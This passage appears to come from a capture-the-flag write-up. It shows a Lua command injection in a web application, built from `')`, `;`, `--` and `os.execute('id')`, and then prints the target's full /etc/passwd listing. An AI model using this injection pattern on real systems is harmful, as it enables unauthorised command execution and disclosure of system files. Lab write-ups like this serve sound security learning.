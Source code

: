 My first attempt triggered a warning from NoScript about a possible XSS attack.  I had to close off the function parameters with `')`, separate the commands with a `;`, and use a Lua comment `--` at the end closed off the insertion to get this warning.  I still did not get code execution however.

![](/assets/img/12-lua-code-exec.png)

 Looking a bit closer at my attempt, I noticed that I had typed `os.system('id')` rather than `os.execute('id')` which NoScript saw as JavaScript, triggering that warning.  Fixing this error allowed me to get command execution. 


> NoScript still caught the attempt using **`os.execute`**, but at least it drew my attention to my error the first time!


```bash
root:*:0:0:Charlie &:/root:/bin/sh
toor:*:0:0:Bourne-again Superuser:/root:/bin/sh
daemon:*:1:1:The devil himself:/:/sbin/nologin
operator:*:2:5:System &:/usr/guest/operator:/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/sbin/nologin
games:*:7:13:& pseudo-user:/usr/games:/sbin/nologin
postfix:*:12:12:& pseudo-user:/var/spool/postfix:/sbin/nologin
named:*:14:14:& pseudo-user:/var/chroot/named:/sbin/nologin
ntpd:*:15:15:& pseudo-user:/var/chroot/ntpd:/sbin/nologin
sshd:*:16:16:& pseudo-user:/var/chroot/sshd:/sbin/nologin
_pflogd:*:18:18:& pseudo-user:/var/chroot/pflogd:/sbin/nologin
_rwhod:*:19:19:& pseudo-user:/var/rwho:/sbin/nologin
_proxy:*:21:21:Proxy Services:/nonexistent:/sbin/nologin
_timedc:*:22:22:& pseudo-user:/nonexistent:/sbin/nologin
_sdpd:*:23:23:& pseudo-user:/nonexistent:/sbin/nologin
_httpd:*:24:24:& pseudo-user:/var/www:/sbin/nologin
_mdnsd:*:25:25:& pseudo-user:/nonexistent:/sbin/nologin
_tests:*:26:26:& pseudo-user:/nonexistent:/sbin/nologin
_tcpdump:*:27:27:& pseudo-user:/var/chroot/tcpdump:/sbin/nologin
_tss:*:28:28:& pseudo-user:/var/tpm:/sbin/nologin
_rtadvd:*:30:30:& pseudo-user:/var/chroot/rtadvd:/sbin/nologin
_unbound:*:32:32:& pseudo-user:/var/chroot/unbound:/sbin/nologin
_nsd:*:33:33:& pseudo-user:/var/chroot/nsd:/sbin/nologin
uucp:*:66:1:UNIX-to-UNIX Copy:/nonexistent:/sbin/nologin
nobody:*:32767:39:Unprivileged user:/nonexistent:/sbin/nologin
r.michaels:*:1000:100::/home/r.michaels:/bin/ksh
nginx:*:1001:1000:NGINX server user:/var/db/nginx:/sbin/nologin
dbus:*:1002:1001:System message bus:/var/run/dbus:/sbin/nologin
```
